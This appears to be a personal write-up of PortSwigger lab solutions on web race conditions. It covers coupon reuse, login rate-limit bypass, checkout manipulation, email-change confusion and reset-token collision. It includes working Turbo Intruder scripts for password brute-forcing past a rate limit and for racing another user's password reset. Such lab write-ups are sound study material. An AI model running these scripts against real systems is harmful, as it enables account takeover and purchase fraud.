 # Race conditions

- https://portswigger.net/web-security/race-conditions
- https://portswigger.net/research/smashing-the-state-machine
- https://www.youtube.com/watch?v=tKJzsaB1ZvI
- https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
- https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py

## Limit overrun race conditions

While making a purchase we are able to submit a coupon for 20% discount. 

`POST /cart/coupon` request applying the coupon can be intercepted and once we do that we can perform `single-packet-attack` using Burp Turbo Intruder, which makes use of HTTP2 streaming, stacking multiple requests in one connection, `Nagle's algorithm` and `last byte synchronization`. This send 20-30 request without their last byte, each in different stream. Then in the single frame send the ending of each frame in different streams, causing the server to accept and start calculating them all in nearly the same time.

Performing this attack for that requests reveals that there is not well handled time difference between accepting the coupon and devalidating it, which causes to apply the same coupon multiple times, solving the lab.

## Bypassing rate limits via race conditions

After too many failed request attempts the applications blocks us from performing further login tries for some increasing period of time.

We can observe, that sending a few requests one by one, starts responding with block error, but when sending 20 request at the same tim with `single-packet-attack`, the application always responds with `Incorrrect username or password`, and not with block error, because of that we can suspect race condition bug in this rate limiting functionality. 

Using Turbo Intruder code shown below, we are able to conduct `single-packet-attack`, performing 20 password guesses every block (every 60, 120, 180... seconds), because the application incorrecly handle time between checking the condition for block and blocking the account.

```
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
import time

REQUESTS_PER_GATE = 20
PASSWORDS = [
    "123123",
    "abc123",
    "football",
    "monkey",
    "letmein",
    "shadow",
    "master",
    "666666",
    "qwertyuiop",
    "123321",
    "mustang",
    "123456",
    "password",
    "12345678",
    "qwerty",
    "123456789",
    "12345",
    "1234",
    "111111",
    "1234567",
    "dragon",
    "1234567890",
    "michael",
    "x654321",
    "superman",
    "1qaz2wsx",
    "baseball",
    "7777777",
    "121212",
    "000000",
]

def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    index = 0
    wait_seconds = 0
    for pwd in PASSWORDS:
        index += 1
        engine.queue(target.req, [pwd], gate='race')
        if index >= REQUESTS_PER_GATE:
            # once every 'race' tagged request has been queued
            # invoke engine.openGate() to send them in sync
            time.sleep(wait_seconds + 5)
            engine.openGate('race')
            wait_seconds += 60
            index = 0
            

def handleResponse(req, interesting):
    table.add(req)
```

## Multi-endpoint race conditions

In this lab, the key is to align processing time of different endpoints. This can be done by warming up the connection, sending multiple requests to add a delay in processing all of them etc.

This time the app has a logic flaw, which allow adding items to the basket after payment validation.

Using Burp Repeater group requests we can construct a group of requests and send them in sequence or as `single-packet attack`.

Here we will add 1 gift card to the basket via `POST /cart` request and then create a group of requests with 1 `POST /cart/checkout` request for submiting the payment and 19 `POST /cart` requests, but this time with `productId` pointing to the jacket, not the giftcard.

This required a couple of tries, but each time we could observe strange app behaviours, like not all products added to the basket (for example I was able to submit the basket successfull as first request, but only 4 of 19 jackets were added to the basket afterwards), not always errors regarding empty basket etc.

After 5th try I was able to successful buy a jacket and be left with -1200$ in the account.

## Single-endpoint race conditions

To identify differences between email change requests I've used email template system shown below, with `i` as a request number in Turbo Intruder

```
"wiener+"+str(i)+"@exploit-0abf00d004864ba3832818bb01fe0013.exploit-server.net"
```

By performing multiple change email address requests sequencialy we cannot observe any strange behaviour, we receive a couple of emails one by one for each requested email change. Email recipent match with email content and verification link.

Once we perform multiple email change requests in parrarel (using `single-packet attak`), we can see that the behaviour differs. Now some of the emails with recipent identifier `8` received validation links for email with identifier `6`. It seems like all recipents received the email, but not all of them for their account, so we may conclude that the email changing fucntion is receiving the email that the mail should be sent to as a parameter, but email contant may be drawn from some shared space.

Now we can try to perform `single-paket attack` sending 10 packets with email change for `carlos@ginandjuice.shop` and 10 for `wiener@exploit-0a2a005504941a6a821cff27015b0015.exploit-server.net`. This can be done via Turbo Intruder or grouped requests in the Repeater sent in parrarel.

After that we can check the email and try to confirm verification token for `carlos@ginandjuice.shop` email, which will successfully change our email and grant us admin privillages.

## Exploiting time-sensitive vulnerabilities

PHP's native session handler module only processes one request per session at a time, so in order to test race conditions I was required to create multiple sessions with different csrf tokens.

By performing a few sequential forgot password requests we do not see anything strange about the app behaviour. 

But when performing a couple of those requests in parrarel, we can observe two received emails with the same token.   

Once we test to reset our password one time providing our email and one time the username, we sometime see two email with the same token and some time with different once. We can assume, that the generated token maybe randomized only by the timestamp.

Now using the script below, we can try to activate password change functionality for us `wiener` and for `carlos`, hoping to hit the same timestamp and receive the same token, which will allow change the user for other user.

```
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    
    for session_id, csrf, uname in [('fpU9eJNCrVPH1oGBJsgUGkXcsCu9aTb7', 'CGsdoO0mHBv98drRzyCqwc5iyQ7yCkGb', 'wiener'), ('Y63zivWxO89NXZIm3TzV3HfDDVPQ7E5g', 'KLSRuP8v1GeQFZ3XkUKVSlfbb5LsrWxU', 'carlos')]:
        engine.queue(target.req, [session_id, csrf, uname], gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```

After couple of tries we are able to access `carlos` password change with the same token we received in the email.
